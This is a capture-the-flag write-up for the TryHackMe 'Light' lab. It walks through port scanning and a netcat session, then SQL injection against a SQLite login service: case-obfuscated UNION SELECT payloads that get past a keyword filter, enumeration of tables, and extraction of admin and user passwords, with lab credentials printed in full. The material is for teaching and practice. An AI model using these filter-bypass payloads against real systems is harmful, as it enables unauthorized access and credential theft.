# Overview

![](www.tryhackme.com/r/room/lightroom?utm_campaign=social_share&utm_medium=social&utm_source=twitter)

The application is vulnerable to SQL Injection in the username input field. User input is concatenated directly into the SQL query string without proper sanitization or parameterization, making it possible for attackers to inject malicious SQL code. Although the application attempts to filter potentially malicious input (e.g., /*, --, %0b, union, and select), these filters can be bypassed with slightly obfuscated payloads.


# Step 1:
run a scan against the ip address of your target:

```bash
$

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 77:e1:36:3b:95:9d:e0:3e:0a:56:82:b2:9d:4c:fe:1a (ED25519)
1337/tcp open  waste?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     Welcome to the Light database!
|     Please enter your username: Username not found.
1 service unrecognized despite returning data. 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Step 2 

##  Manual Enumeration

I connect using 

```bash

$ nc 10.10.144.198 1337

```

and mannualy checking 

```bash 
$  nc 10.10.144.198 1337 
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
Please enter your username: ' or 1=1;--
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
Please enter your username: 
```

```bash
1. Entering smokey as the username returns a password response: vYQ5ngPpw8AdUmL.
2. Using a single quote (') triggers an error: Error: unrecognized token: "''' LIMIT 30", suggesting a possible SQL injection vulnerability.

```

That makes sense—SQLite is a strong possibility given the error message format and LIMIT 30. Your next steps should focus on:

1. Confirming the Database Type (SQLite)
Since SQLite doesn't support typical version queries like SELECT @@version, try:

```bash 

Please enter your username: ' UNION SELECT sqlite_version()--  
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
Please enter your username: ' unIoN seLEcT sQLiTe_vERsion()--
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
Please enter your username: ' unIoN seLEcT sQLiTe_vERsion()'
Password: 3.31.1
Please enter your username: 
```

2. Determining the Number of Columns and Identifying Table Names

```bash 

Please enter your username: ' ORDER BY 2'
Error: near "''": syntax error
Please enter your username: ' ORder bY 2--                                                      
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
Please enter your username: ' ORder bY 2'
Error: near "''": syntax error
Please enter your username: ' UNION SELECT NULL'
Ahh there is a word in there I don't like :(
Please enter your username: ' UNION SELECT NULL, null'
Ahh there is a word in there I don't like :(
Please enter your username: ' unIoN seLecT nUlL, NuLL'
Error: SELECTs to the left and right of UNION do not have the same number of result columns
Please enter your username: ' Union Select group_concat(tbl_name) from sqlite_master'
Password: usertable,admintable
Please enter your username: 

```

## question 1 : What is the admin username?

```bash

Please enter your username: ' unIoN seLecT username from admintable'                           
Password: [REDACTED]
Please enter your username: 


```
## question 2 : What is the password to the username mentioned in question 1


```bash 

Please enter your username: ' unIoN seLecT password from admintable where username=Try[REDACTED]'
Error: near "''": syntax error
Please enter your username:  ' unIoN seLecT password from admintable where username=Try[REDACTED] 
Error: unrecognized token: "' LIMIT 30"
Please enter your username:  ' unIoN seLecT password from admintable where username=Try[REDACTED]  
Username not found.
Please enter your username: ' unIoN seLecT password from admintable where username='Try[REDACTED]
Password: mam[REDACTED]
Please enter your username: 

```


I find another user alice and when we type in her name we get her password tF8tj2o94WE4LKC

```bash 

Please enter your username: ' unIoN seLecT username from usertable'
Password: alice
Please enter your username: ' unIoN seLecT password from usertable where username='alice   
Password: tF8tj2o94WE4LKC
Please enter your username: ' unIoN seLecT password from usertable where username='alice
Password: tF8tj2o94WE4LKC

```

## quetion 3: What is the flag?

```bash

Please enter your username: ' Union Select password FROM admintable WHERE username not like 'T%
Password: THM{REDACTED}
Please enter your username: 

```

### impact

1. **Data Breach**: Attackers can retrieve sensitive data, such as usernames and passwords, from the database.
2. **Authentication Bypass**: Attackers can potentially log in as any user without knowing their credentials.
3. **System Compromise**: If combined with other vulnerabilities, SQL injection could lead to privilege escalation or arbitrary code execution.

## Thanks For reading 🤗